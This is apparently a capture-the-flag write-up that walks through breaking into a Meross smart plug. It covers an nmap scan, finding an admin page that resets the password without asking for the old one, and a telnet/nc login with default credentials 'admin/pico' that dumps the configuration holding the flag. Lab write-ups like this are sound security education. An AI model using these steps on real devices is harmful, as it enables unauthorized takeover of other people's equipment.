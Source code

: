 # Connect to the wifi

Connect to the `Meross_SW_7553` wifi

You should get an IP address like `10.10.10.*`

# Find the smart plug

Then, you need to find the IP address of the smart plug.

```
$ sudo nmap 10.10.10.*
Starting Nmap 7.01 ( https://nmap.org ) at 2018-11-29 10:17 CET
Nmap scan report for 10.10.10.1
Host is up (0.017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
23/tcp open  telnet
80/tcp open  http
MAC Address: 00:0C:43:E1:76:29 (Ralink Technology)
...

```

You find one host on `10.10.10.1` with 2 open ports:

- telnet (23)
- http (80)

We go to http://10.10.10.1 which redirects to a dummy page.

![](./powerplug-index.png)

# Find the admin page

Inspecting `http://10.10.10.1` page source shows there is a JavaScript `spec.js`.

```html
<html>
<head>
<SCRIPT	language=JavaScript	src=utils.js></SCRIPT>
<SCRIPT	language=JavaScript	src=spec.js></SCRIPT>
<SCRIPT	language=JavaScript>


addCfg('opmode',0x01140100,'1');


var __opmode = 1*getCfg("opmode");

if (__opmode == 3)
	location='lan.htm';
else
	location='wz.htm';
</script>
</head>
</html>
```

We get that file `wget http://10.10.10.1/spec.js`, several URLs are listed.

```
$ grep htm spec.js 
new Page(0,'opmode','opmode.htm','OpMode'),
new Page(0,'wz','wz.htm','Wizard')
,new Page(0,'wan','wan.htm','WAN')
,new Page(0,'wan','wan_fixed.htm','WAN',1)
,new Page(0,'wan','wan_dhcp.htm','WAN',1)
,new Page(0,'wan','wan_pppoe.htm','WAN',1)
,new Page(0,'lan','lan.htm','LAN')
,new Page(0,'dhcp','dhcp.htm','DHCP')
,new Page(0,'wlan','status.html','Wireless')
...
,new Page(2,'admin','admin.htm', 'Admin')
,new Page(2,'time','time.htm','Time')
,new Page(2,'config','config.htm', 'System')
,new Page(2,'firmware','firmware.htm','Firmware')
...
```

Among those:

- admin.htm
- firmware.htm

Both pages will redirect the participant to a small website for the smart plug.

The admin page allows to reset the admin password.
You can reset it to anything you like **without knowing the previous password!!**

![](./powerplug-admin.png)
![](./powerplug-changesuccess.png)

## Telnet

Then, you need to telnet on the smart plug:

```
$ telnet 10.10.10.1
Trying 10.10.10.1...
Connected to 10.10.10.1.
Escape character is '^]'.
Login as:admin^M^?
```

With telnet, there is a CR LF issue. This can be solved with a `toggle crlf` - but it is actually simpler to use nc.

```
$ telnet
telnet> toggle crlf
Will send carriage returns as telnet <CR><LF>.
telnet> open 10.10.10.1
Trying 10.10.10.1...
Connected to 10.10.10.1.
Escape character is '^]'.
Login as:admin^MPassword:pico^MCFG>ls^Mget         set         del         prof 
```

With nc, it works nicely:

```
$ nc 10.10.10.1 23
Login as:admin
Password:pico
CMD>cd
cfg         net         os          mft         meross      
CMD>cd cfg
CFG>ls
get         set         del         prof        
CFG>prof
Usuage:   prof <init|save|commit|show>
Arguments:
	init    reset factory default.
	save    save config to flash.
	commit  save config to flash and notify monitor thread.
	show    list all availble config.
```

We get a shell, navigate in the directories. Go in `cfg` and then try `prof` to show the configuration. Usage suggest we use `prof show`:

```
CFG>prof show
#PROFILE
#VER_2_1
SYS_ADMPASS=pico
SYS_DAYLITE=0
SYS_DOMAIN=Meross
SYS_IDLET=0
SYS_NAME=ph0wn{kahZoo0w}
SYS_RM_EN=1
SYS_RM_IP=0.0.0.0
SYS_RM_PORT=80
SYS_TZONE=45
SYS_USERS=admin
```

The flag is `ph0wn{kahZoo0w}`